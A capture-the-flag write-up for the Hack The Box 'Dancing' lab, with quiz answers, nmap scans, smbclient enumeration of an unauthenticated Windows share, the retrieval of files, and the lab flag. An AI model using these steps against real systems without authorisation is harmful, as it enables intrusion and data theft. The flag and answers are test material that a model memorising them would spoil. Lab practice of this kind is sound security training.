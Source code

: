 ```yaml
---

title: "Dancing"
date: 2022-05-12 01:09:33 +0300
author: oste
image: /assets/img/Posts/dancing.png
categories: [HTB, Starting Point, Tier 0]
tags: [windows, smb, smbclient]
---
```


#### What does the 3-letter acronym SMB stand for?

`Server Message Block`

#### What port does SMB use to operate at?

`445`

#### What network communication model does SMB use, architecturally speaking?

`client-server model`

#### What is the service name for port 445 that came up in our nmap scan?

```bash
➜  kali nmap -sC -sV -p445 -Pn 10.129.159.248
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-15 08:10 EST
Nmap scan report for 10.129.159.248
Host is up.

PORT    STATE    SERVICE      VERSION
445/tcp filtered microsoft-ds

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

`microsoft-ds`

#### What is the tool we use to connect to SMB shares from our Linux distribution?

`smbclient`

#### What is the `flag` or `switch` we can use with the SMB tool to `list` the contents of the share?

`-L`

#### What is the name of the share we are able to access in the end?

`WorkShares`

#### What is the command we can use within the SMB shell to download the files we find?

`get`

#### Submit root flag

```bash
➜  nmap -sC -sV -p- -T4 -Pn 10.129.140.230
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-22 08:09 EST
Nmap scan report for 10.129.140.230 (10.129.140.230)
Host is up (0.24s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h59m59s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-12-22T17:23:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 849.55 seconds
```

```bash
➜  smbclient -L ////10.129.140.230//
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
SMB1 disabled -- no workgroup available
```

```bash
➜  smbclient \\\\10.129.140.230\\WorkShares
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 04:22:01 2021
  ..                                  D        0  Mon Mar 29 04:22:01 2021
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1728838 blocks available
smb: \> cd Amy.J\
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 05:08:24 2021
  ..                                  D        0  Mon Mar 29 05:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 07:00:37 2021

                5114111 blocks of size 4096. 1728838 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1748693 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
➜  cat flag.txt
5f61c10dffbc77a704d76016a22f1664#
➜  cat worknotes.txt
- start apache server on the linux machine
- secure the ftp server
- setup winrm on dancing #
```

`HTB{5f61c10dffbc77a704d76016a22f1664}`
